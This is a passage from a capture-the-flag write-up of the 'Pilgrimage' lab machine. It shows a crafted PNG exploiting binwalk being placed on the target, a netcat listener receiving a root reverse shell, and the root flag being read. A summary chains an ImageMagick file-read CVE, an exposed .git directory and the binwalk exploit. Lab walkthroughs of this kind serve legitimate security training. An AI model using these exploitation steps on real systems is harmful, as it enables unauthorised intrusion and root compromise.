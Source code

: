 ```console
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################


You can now rename and share binwalk_exploit and start your local netcat listener.

$ mv bin
bin/                 binwalk_exploit.png

$ mv binwalk_exploit.png x.png

$ scp x.png emily@${t}:
emily@10.10.11.219's password:
x.png
```

I start a `nc` listener, and copy the payload on the target to the right destination:

```console
emily@pilgrimage:~$ cp x.png /var/www/pilgrimage.htb/shrunk/
```

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.219] 46484
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
0e9969[...]
```

## Summary

Target runs a web service to resize images. It uses an ImageMagick binary on the backend which has an LFI vulnerability, <https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC>. This paired with the `git` repo being exposed at the web root (`http://$t/.git`) we can analyze `login.php` to find the name of the `sqlite` database, and use the LFI to retrieve a user password for user `emily`.

With user access, we can see a malware-scanning cron job that runs to analyze file uploads from the webservice. The scanner uses `binwalk` which itself has an exploit: <https://www.exploit-db.com/exploits/51249>. Using that exploit we can spawn a reverse shell as the `root` user.
